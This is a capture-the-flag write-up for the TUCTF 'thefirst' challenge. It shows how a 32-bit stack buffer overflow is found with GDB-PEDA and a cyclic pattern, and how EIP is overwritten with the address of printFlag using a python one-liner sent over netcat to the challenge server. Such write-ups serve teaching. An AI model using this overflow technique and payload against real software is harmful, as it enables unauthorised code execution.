 # thefirst
## PWN 32bits binary

**Using**:
- Linux
- GDB-PEDA

The programme start with the phrase : *Let's see what you can do*
We are able to write something but the programme exit after that.

First step, strings the binary:
- `$ strings thefirst`

We can now see all the function used for (nope there is no flag here).
There is an interesting function called **printFlag**.
This function is never called during the *normal* execution of the programme.
We'll try to call this function.

We can see a segmentation fault if we enter too much characters, let's try a bufferoverflow.

**We place two breakpoints** :
- 0x08049276 <+87>:	call   0x80490a0 <gets@plt>
- `gdb-peda$ b*0x08049276`

- 0x08049286 <+103>:	leave
- `gdb-peda$ b*0x08049286`

**Run and continue to pass the first breakpoint** :
- `gdb-peda$ run`
- ̀`gdb-peda$ c`

Now we can enter our pattern [following this link](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

There is our 50 lengh pattern that we put on the program:
- Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab

Pass the last breakpoint :
- `gdb-peda$ c`

We are at the end of the program, we can see the ESP and EIP stack.
The EIP stack is full of characters that are on our pattern, let's see which one !
- EIP: 0x41386141 ('Aa8A')

- Pattern Offset : *0x41386141*
- Lengh : *24*

The EIP is full after 24 chars, let's try another test.
Now we add 'ABCD' at the end of our 24 lengh pattern:
- Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7ABCD

**We do the same thing and then**:
- EIP: 0x44434241 ('ABCD')

Now the fun begins !

We need the address memory of printFlag:
- `gdb-peda$ p printFlag`
- 1 = {<text variable, no debug info>} 0x80491f6 <printFlag>

- printFlag : *0x80491f6*

Now we are going to make our exploit with all those information.
- 24 chars + printFlag_mem
- `$ python -c 'print "A" * 24+"\x08\x04\x91\xf6"[::-1]' | ./thefirst`

We got the message :
- */bin/cat ./flag.txt don't exist*

We did it, now let's try this exloit on the Netcat of the challenge.
- `$ $python -c 'print "A" * 24+"\x08\x04\x91\xf6"[::-1]+"\n"' | nc chal.tuctf.com 30508`
- **TUCTF{0n3_d0wn..._50_m4ny_70_60}**

